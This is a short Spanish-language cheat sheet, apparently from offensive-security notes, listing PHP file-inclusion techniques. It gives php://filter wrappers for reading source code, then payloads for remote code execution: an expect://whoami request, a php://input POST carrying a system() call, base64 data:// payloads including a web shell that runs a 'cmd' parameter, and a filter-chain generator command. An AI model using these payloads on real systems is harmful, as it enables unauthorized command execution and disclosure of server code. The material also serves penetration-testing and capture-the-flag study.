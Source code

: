 
## Wrappers:
- php://filter/convert.base64-encode/resource=
- php://filter/read=string.rot13/resource=
- php://filter/convert.iconv.utf-8.utf-16/resource=
## Wrappers para RCE:
- (GET)expect://whoami.
- (Cualquiera de los 2):
(Head)
POST /?filename=php://input HTTP/1.1
(Body)
<?php system ("whoami"); ?>
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTsgPz4=
- (GET) /?filename=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2b&cmd=whoami (Hay que encodear la cadena en base64).
- Usando la tool de este repo: https://github.com/synacktiv/php_filter_chain_generator
Podemos generar cadenas falopa las cuales nos permiten hacer RCEs.
python3 php_filter_chain_generator.py --chain '<?php system("whoami"); ?>'